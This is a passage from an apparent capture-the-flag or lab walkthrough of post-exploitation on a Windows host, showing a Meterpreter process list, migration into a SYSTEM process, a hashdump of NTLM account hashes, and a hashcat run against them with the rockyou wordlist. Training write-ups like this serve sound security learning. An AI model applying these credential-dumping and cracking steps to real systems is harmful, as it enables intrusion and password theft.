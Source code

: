 ```cli
 1308  688   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1344  688   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1388  688   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1404  688   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1468  688   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1584  688   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 2220  1540  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 2252  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2456  688   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2484  688   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2520  688   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2608  688   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe

meterpreter > migrate 2608
[*] Migrating from 2220 to 2608...
[*] Migration completed successfully.
meterpreter > 
```

I then use hashdump to show all passwords. 

```cli
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 

```
Hashdump shows all passwords on the system and their accounts but they're hashed. So I'll be using hashid to find out what kind of hash this is and then use hashcat to crack said password.

```cli
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 5 2500U with Radeon Vega Mobile Gfx, 5135/5199 MB (2048 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

```